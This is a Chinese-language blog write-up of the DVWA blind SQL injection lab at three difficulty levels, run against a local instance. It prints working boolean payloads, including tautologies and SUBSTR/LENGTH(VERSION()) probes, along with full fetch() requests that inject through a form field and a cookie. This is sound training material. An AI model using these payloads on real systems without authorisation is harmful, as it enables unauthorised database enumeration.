## 前言

SQL盲注会比一般的注入难度高很多，特别是经验不足的时候可以尝试的 payload 有限，就算有注入点也很难靠手里积累的那点 payload 测出来。一般这种时候用工具会好得多。

## 原理

SQL盲注指的是存在SQL注入，但SQL错误不回显。这种情况下报错攻击无效而且构造有效的 payload 会比较困难。但还是可以通过几个方面确定执行结果：

1. 页面显示内容。比如当SQL错误发生或`WHERE`、`ON`这样的条件子句不满足时和正常执行时网页内容不同。
2. 如果正常执行和错误都返回一样的页面，还可以通过时间来判断SQL是否被执行，比如构造一个执行很慢的 payload 让 SQL 服务器跑，如果返回时间比正常时间久就说明SQL被执行了。
3. 可能还有其他的？

盲注还有个问题就是注入的查询可能不回显到前端，所以直接 `UNION` 一个查询曝出所有的表和列是不太可能的。但如果存在盲注的话至少会有一个比特的观测窗口，所以还是存在一个字符一个字符试过去的办法，比如表名第一个字符是`a`的表是否存在，表名第一个字符是`b`的表是否存在，如此如此。虽然慢而且对一些无法枚举的字段（比如存的是unicode，那总不能遍历整个码表；或者 `int`、`float`这样取值范围太大的类型）没辙。

## 解题

### Low难度：收集信息



一个普通表单，尝试输入数字。



逻辑应该是检测这个用户id是否存在于数据库中，随便乱打个数字看看。



看下目标是什么。



猜解数据库版本。接着试一试是什么类型的注入，已知这个表单回显是存在/不存在，所以拼一个 `' or 1=1; --` 看看，把条件变成恒真。



有效。

### Low难度：解题

用 `or` 连接一个子查询，`SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%'); --`。这个查询会判断是MySQL的版本是不是5开头。依次类推很快就能解出MySQL版本号。

```plaintext
' or (SELECT EXISTS(SELECT * FROM sys.version WHERE mysql_version LIKE '5%')); -- 
```

但是很快发现行不通，因为没有权限访问 `sys` 这个系统库（没有报错，我只能猜是这样）。

想了想再谷歌了一下盲注的payloads之后还行没什么头绪，`union`大概是不行的，因为回显只有exists和missing两种状态，union查出来也看不到。再翻了一下怎么用SQL查询MySQL版本之后发现除了`show variables`和`sys.version`之外，还可以试试`version`函数。用`SELECT SUBSTR(VERSION(),1,1)='5'`，然后逐个位判断（最好是先判断出这个字符串长度，用`length(version())>1`这样的 payload。）

于是做出下面一系列payload（mysql版本号是`x.y.z`格式，肯定不低于5位，直接从5开始判断）。

```plaintext
' or (SELECT LENGTH(VERSION())>5); -- true
' or (SELECT LENGTH(VERSION())>6); -- false
```

只用了两个 payload 就确定了长度是 6。

接着判断第一位是不是5（因为5.x还是最常用的MySQL版本），后面逐位判断。（这里略了尝试的部分）

```plaintext
' or (SELECT SUBSTR(VERSION(),1,1)='5'); -- true
' or (SELECT SUBSTR(VERSION(),2,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),3,1)='7'); -- true
' or (SELECT SUBSTR(VERSION(),4,1)='.'); -- true
' or (SELECT SUBSTR(VERSION(),5,1)='3'); -- true
' or (SELECT SUBSTR(VERSION(),6,1)='7'); -- true
```

所以数据库版本号是 `5.7.37`。

这种无聊的爆破工作显然是应该交给脚本的。之后研究sqlmap的时候会再回头看看怎么用sqlmap盲注这里。

### Medium难度：收集信息



和SQL注入题的medium难度一模一样。

### Medium难度：解题

还是老样子，复制出请求，尝试提交个数字型注入。

```js
await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "content-type": "application/x-www-form-urlencoded",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "sec-fetch-user": "?1",
    "upgrade-insecure-requests": "1"
  },
  "referrer": "http://localhost:8080/vulnerabilities/sqli_blind/",
  "referrerPolicy": "strict-origin-when-cross-origin",
  "body": "id=999+or+1%3D1;+--+&Submit=Submit",
  "method": "POST",
  "mode": "cors",
  "credentials": "include"
});
```



在`id=999 or 1=1; --`这个payload下返回了 `exists`，剩下的就是和 Low 难度差不多的方式爆破出版本号，就不复述了。

### High难度：收集信息



和SQL注入题的High难度差不多，但注意到题中提示变成了 `Cookie ID set!`，于是看一眼 Cookie。



id直接保存在cookies里，这就简单多了。

### High难度：解题

复制出请求（注意复制出 NodeJS fetch，复制浏览器 fetch 不会复制出cookie），把cookie里的id改成`0 or 1=1 --`，URL编码。

```js
let resp = await fetch("http://localhost:8080/vulnerabilities/sqli_blind/", {
  "headers": {
    "accept": "text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9",
    "accept-language": "zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6",
    "cache-control": "no-cache",
    "pragma": "no-cache",
    "sec-ch-ua": "\" Not A;Brand\";v=\"99\", \"Chromium\";v=\"100\", \"Microsoft Edge\";v=\"100\"",
    "sec-ch-ua-mobile": "?0",
    "sec-ch-ua-platform": "\"Windows\"",
    "sec-fetch-dest": "document",
    "sec-fetch-mode": "navigate",
    "sec-fetch-site": "same-origin",
    "upgrade-insecure-requests": "1",
    "cookie": "id=0 or 1=1 -- ; PHPSESSID=9nmb4p6uqpf33edc0gvt0s38k5; security=high",
    "Referer": "http://localhost:8080/vulnerabilities/sqli_blind/",
    "Referrer-Policy": "strict-origin-when-cross-origin"
  },
  "body": null,
  "method": "GET"
});
```

初始化一个node包（`package.json`把`type`设置成`module`），安装`node-fetch`，补个 `import fetch from "node-fetch";` 然后调试上面的脚本，发现提示 MISSING。



难道是字符型注入？改成`' or 1=1 --`再试一次。



这次提示变成了exists，所以是字符型注入。接下来就是用 Low 难度的 Payload 一个一个试过去，爆破出版本号。

## 总结

说说我打完盲注的想法。其实最大的问题是没信心，不知道到底什么结果，没有任何错误提示。有源码的情况下白盒还比较容易构造 payload，黑盒的情况下盲注构造payload倒是很考验心态，因为总是不成功没反应打击很大，会怀疑是不是自己判断错了。

而且很费时间。

想确认是否有注入点感觉最好的办法还是先拿工具脚本试水。不过有防火墙的情况下可能又有问题=。=像是`or 1=1`这种payload很可能被杀。工具没辙的时候还得看人有没有新点子，但这又是大佬的领域了...

嗯，我也想做大佬啊。

